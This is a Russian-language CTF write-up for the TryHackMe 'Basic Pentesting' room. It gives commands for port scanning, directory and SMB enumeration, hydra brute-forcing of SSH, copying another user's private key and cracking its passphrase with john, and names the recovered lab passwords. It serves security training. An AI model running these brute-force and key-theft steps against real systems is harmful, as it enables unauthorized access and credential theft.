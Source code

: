 Basic Pentesting — TryHackMe CTF: write-up / README

Краткое описание
Это пошаговый write-up прохождения CTF-комнаты Basic Pentesting (TryHackMe). В работе использованы стандартные инструменты Kali Linux: nmap, gobuster, enum4linux, smbclient, hydra, ssh, ssh2john, john. Цель — найти пользователей, получить доступ по SSH, и выполнить привилегированное повышение до пользователя K для получения финальных артефактов.

Содержимое репозитория

README.md — этот файл (write-up).

notes/ — ваши заметки и сохранённые вспомогательные файлы (например id_rsa, hash.txt, словари).

commands.txt — список исполненных команд (см. раздел «Команды»).

loot/ — файлы/флаги, найденные на машине.

1. Окружение

Kali Linux (локально), подключение к TryHackMe VPN.

Цель: удалённая машина с IP (пример) 10.10.X.X.

Словари: royo.txt (использовался для брутфорса паролей).

2. Что было выполнено (в двух предложениях)

Провёл сканирование сервисов, нашёл веб-директорию development с подсказками, перечислил SMB-шары и получил имена пользователей. Затем подобрал пароль пользователя Jan через брутфорс SSH, собрал приватный ключ пользователя K, извлёк из него хэш и подобрал passphrase, после чего вошёл как K и прочитал финальный файл с паролем/флагом.

3. План / Objectives

Сканирование целевой машины (порты/сервисы).

Перечисление веб-каталога → поиск подсказок.

SMB-энумерация — найти пользователей/файлы.

Брутфорс SSH (найти пароль для Jan).

Достать приватный ключ пользователя K и получить доступ к K (ssh2john → john).

Получить финальные артефакты / флаги.

4. Recon & Enumeration (что и как делал)
4.1 Nmap — быстрое агрессивное сканирование

Команда (пример):

nmap -sS -A -T4 -oN output.txt 10.10.X.X


Результат: открыты порты 22 (SSH), 80 (HTTP), SMB (Samba) и ещё пара портов. Результат сохранил в output.txt.

4.2 Веб — просмотр главной страницы и поиск

Открыл сайт в браузере по IP, просмотрел исходный код — нашёл комментарий с подсказкой про dev notes.

Запустил gobuster для поиска директорий:

gobuster dir -u http://10.10.X.X -w /usr/share/wordlists/dirb/common.txt -t 50


Найдена директория: development.

4.3 Прочитал файлы в development

Внутри — два .txt с диалогом между K и J, упоминания:

Apache настроен.

Samba настроена.

Проверка /etc/shadow.

Версия (2.5.12) — полезная подсказка о возможной уязвимости/контексте.

Из одного файла стало ясно, что имена пользователей — начинаются на J и K (позже выяснилось как Jan и K).

4.4 SMB-перечисление

Использовал enum4linux, затем smbclient:

enum4linux -a 10.10.X.X
smbclient -L //10.10.X.X -N
smbclient //10.10.X.X/anonymous -N


Подключаясь к шаре anonymous, скачал st.txt — внутри подтверждены имена пользователей: Jan и K.

5. Эксплуатация / получение доступа
5.1 Брутфорс SSH для пользователя Jan

Инструмент: hydra.

hydra -l Jan -P /path/to/royo.txt ssh://10.10.X.X -t 4


Результат: найден пароль Arando (или Armando — в транскрипте встречается обе вариации; в реальной сессии проверяйте точное значение).
Подключение:

ssh Jan@10.10.X.X
# вводим найденный пароль

5.2 Получение приватного ключа пользователя K

После входа как Jan:

ls -la /home/K/.ssh
cat /home/K/.ssh/id_rsa


Скопировал приватный ключ id_rsa в локальный файл id_rsa_k.

5.3 Конвертация приватного ключа в формат для crack'а

Использовал ssh2john (часть john tools):

/opt/john/run/ssh2john.py id_rsa_k > hash.txt

5.4 Крэк пароля (passphrase) приватного ключа

Запустил john со словарём:

john --wordlist=/path/to/royo.txt hash.txt


Результат: найден passphrase (в видео — pwax).
Применение ключа:

chmod 600 id_rsa_k
ssh -i id_rsa_k K@10.10.X.X
# при запросе passphrase вводим найденное значение

6. Да, мы в системе K — финал

После входа как K:

cat /home/K/password.txt   # или другой файл, который содержит финальный пароль/флаг


Файл с паролем/флагом прочитан — CTF пройден.